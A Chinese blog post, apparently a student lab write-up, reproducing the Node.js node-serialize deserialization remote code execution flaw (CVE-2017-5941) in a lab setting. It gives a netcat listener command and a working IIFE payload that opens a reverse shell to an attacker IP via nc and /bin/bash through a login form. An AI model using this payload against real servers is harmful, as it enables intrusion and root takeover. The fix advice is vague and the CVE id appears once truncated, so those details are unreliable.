



# Node.js 反序列化漏洞远程执行代码（CVE-2017-5941） - 20145312 袁心 - 博客园

> 原文：[`www.cnblogs.com/yx20145312/p/7020206.html`](https://www.cnblogs.com/yx20145312/p/7020206.html)

# 2 Node.js 反序列化漏洞远程执行代码（CVE-2017-5941）

## 2.1 摘要

### 2.1.1 漏洞介绍

*   漏洞名称： Exploiting Node.js deserialization bug for Remote Code Execution
*   漏洞 CVE id： CVE-2017-594
*   漏洞类型： 代码执行
*   Node.js 存在反序列化远程代码执行漏洞，若不可信的数据传入`unserrialize()`函数，通过传递立即调用函数表达式(IIFE)的 JavaScript 对象可以实现任意代码执行。并且 Node.js 服务端必须存在接收序列的数据接口

### 2.1.2 漏洞环境

*   操作机：Kali Linux
*   目标机：CentOS 6.5

### 2.1.3 实验工具

*   exp.txt:利用 nodejs 代码执行的代码文件。

## 2.2 漏洞复现

*   首先访问目标机器 http://172.16.12.2 可以看到一个存在 node.js 漏洞的登录界面。
    

*   使用 nc 监听本地端口，用于接收漏洞环境的反弹 Shell. nc -lv -p 8080 即监听本机 8080 端口
    

*   准备反序列化代码：`_$$ND_FUNC$$_function (){require('child_process').exec('mknod backpipe p; nc <ip> <port> 0<backpipe | /bin/bash ]>backpipe')}()`，修改里面的 <ip><port>，修改为本机 IP 和 NC 监听的端口号：`_$ND_FUNC$_function (){require('child_process').exec('mknod backpipe p; nc <172.16.11.2> <8080> 0<backpipe | /bin/bash ]>backpipe')}()`，修改后复制该代码，去尝试到登录界面利用。
    </port></ip>

*   用户名任意输入，将修改好的反序列化代码复制到密码框点击登录即可。
    点击登录后，如下图所示：利用成功。
    

*   已经反弹回一个 shell，并且权限为 root。
    

## 2.3 漏洞分析

*   使用 0.0.4 版本的 node-serialize 进行研究，成功利用的话，不可信输入传递到 unserialize()的时候可以执行任意代码。创建 Payload 最好使用同一模块的 serialize()函数。 创建以下 JavaScript 对象，将其传入 serialize() 函数。
    

*   运行后得到以下输出：
    

*   得到序列化的字符串，可以通过 unserialize()函数进行反序列化，但问题是代码执行不会发生，直到触发对应于对象的 rce 属性的函数。可以使用 JavaScript 的立即调用函数表达式（IIFE）来调用该函数。如果在函数体之后使用括号()，当对象被创建时，函数将被调用。 它的工作方式类似于 C ++中的类构造函数。现在修改过的代码经 serialize() 函数马上会被调用。
    

*   运行后得到以下输出：
    

*   成功执行，那么就有了下面的 exploit：
    

*   将其传入 unserialize() 函数，触发代码执行。
    

*   运行后得到以下输出：
    

## 2.4 修复方案

*   更新到官方最新版本：[`nodejs.org/en/download/`](https://nodejs.org/en/download/)

## 2.5 思考总结

*   本实践实现了 Node.js 反序列化漏洞远程执行代码的复现，并对漏洞原理进行了详细的分析。该漏洞本质上是构造 Payload 传入 unserrialize()函数进行反序列化：使用 JavaScript 的立即调用函数表达式（IIFE），当对象被创建时，将 该 JavaScript 对象传入 serialize() 函数，输出 exploit 将其传入 unserialize() 函数，可以实现任意代码执行。危害不容小觑。